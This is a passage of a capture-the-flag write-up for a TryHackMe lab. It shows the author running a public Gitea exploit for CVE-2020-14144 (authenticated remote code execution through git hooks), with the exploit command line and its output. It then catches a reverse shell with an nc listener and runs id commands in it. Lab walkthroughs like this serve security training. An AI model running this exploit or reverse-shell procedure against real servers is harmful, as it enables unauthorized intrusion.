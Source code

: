 The first one looks good for us. Let's mirror that exploit and **look carefully what it's doing**:

```
┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# searchsploit -m 49571
```

**49571.py:**

Overall, what this exploit does is:

- Login into an user
- Create a repository
- Delete a repository
- Setting up webhooks
- Trigger the reverse shell via making changes in a repository, and `git remote add origin` with a reverse shell

Let's run this exploit!

```
┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# python3 49571.py -t http://$RHOSTS:31111 -u "leeroy" -p "{Redacted}" -I 10.18.61.134 -P 443
    _____ _ _______
   / ____(_)__   __|             CVE-2020-14144
  | |  __ _   | | ___  __ _
  | | |_ | |  | |/ _ \/ _` |     Authenticated Remote Code Execution
  | |__| | |  | |  __/ (_| |
   \_____|_|  |_|\___|\__,_|     GiTea versions >= 1.1.0 to <= 1.12.5
     
[+] Starting exploit ...
hint: Using 'master' as the name for the initial branch. This default branch name
hint: is subject to change. To configure the initial branch name to use in all
hint: of your new repositories, which will suppress this warning, call:
hint: 
hint: 	git config --global init.defaultBranch <name>
hint: 
hint: Names commonly chosen instead of 'master' are 'main', 'trunk' and
hint: 'development'. The just-created branch can be renamed via this command:
hint: 
hint: 	git branch -m <name>
Initialized empty Git repository in /tmp/tmp.tUXZySn4qn/.git/
[master (root-commit) 1c7c65b] Initial commit
 1 file changed, 1 insertion(+)
 create mode 100644 README.md
Enumerating objects: 3, done.
Counting objects: 100% (3/3), done.
Writing objects: 100% (3/3), 249 bytes | 249.00 KiB/s, done.
[+] Exploit completed !
```

```
┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# rlwrap -cAr nc -lvnp 443               
listening on [any] 443 ...
connect to [10.18.61.134] from (UNKNOWN) [10.10.208.216] 42148
bash: cannot set terminal process group (14): Not a tty
bash: no job control in this shell
bash-4.4$ whoami;hostname;id;ip a
git
gitea-0
uid=1000(git) gid=1000(git) groups=1000(git),1000(git)
[...]
3: eth0@if8: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 8951 qdisc noqueue state UP 
    link/ether c2:83:24:15:49:73 brd ff:ff:ff:ff:ff:ff
    inet 10.42.0.14/24 brd 10.42.0.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::c083:24ff:fe15:4973/64 scope link 
```